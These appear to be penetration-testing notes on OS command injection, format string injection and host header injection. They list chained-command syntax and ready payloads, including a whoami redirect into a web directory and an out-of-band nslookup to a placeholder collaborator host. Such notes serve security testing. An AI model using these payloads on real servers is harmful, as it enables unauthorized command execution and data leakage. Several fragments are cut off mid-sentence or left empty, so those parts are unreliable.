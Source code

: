 OS command injection is a technique used via a web interface in order to execute OS commands on a web server.

There are different types of command injection:

- Blind OS command injection:
  - Time delays: ?parameter=x||ping+-c+10+127.0.0.1||
  - Redirecting output (Retreive the file after on your browser): ?parameter=||whoami>/var/www/images/output.txt||
  - OOB (Out Of Band) Exploitation: ?parameter=x||nslookup+burp.collaborator.address||

###### Discovery

- **cmd1|cmd2**: Uses of **|** will make command 2 to be executed weather command 1 execution is successful or not.
- **cmd1;cmd2**: Uses of **;** will make command 2 to be executed weather command 1 execution is successful or not.
- **cmd1||cmd2** : Command 2 will only be executed if command 1 execution fails.
- **cmd1&&cmd2** : Command 2 will only be executed if command 1 execution succeeds.
- **$(cmd)** : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
- **cmd** : It’s used to execute specific command. For example, whoami
- **0x0a**: End of line character in hexadecimal
- **\n**

[Commix](https://github.com/commixproject/commix) is a tool used to find bugs, errors or vulnerabilities related to command injection attacks.

```bash
python commix.py --url="http://victim.com/#
```

##### Testing for Format String Injection

A format string is a **null-terminated character sequence** that also contains conversion specifiers interpreted or converted at runtime.

If server-side code concatenates a user's input with a format string, an attacker we can add additional conversion specifiers to cause a runtime error, information disclosure, or buffer overflow.

For instance:

- **%s**: Mostly used to represend a string (R, C, Python)
- **%d**: Mostly used to represent number

The goal is to see an unexe

Fuzzing/FormatString-Jhaddix.txt

##### Testing for Host Header Injection

A web server commonly hosts several web applications on the same IP address, referring to each application via the virtual host. In an incoming HTTP request, web servers often dispatch the request to the target virtual host based on the value supplied in the Host header.

#### Test Number of Times a Function Can Be Used Limits

##### Bypass #1
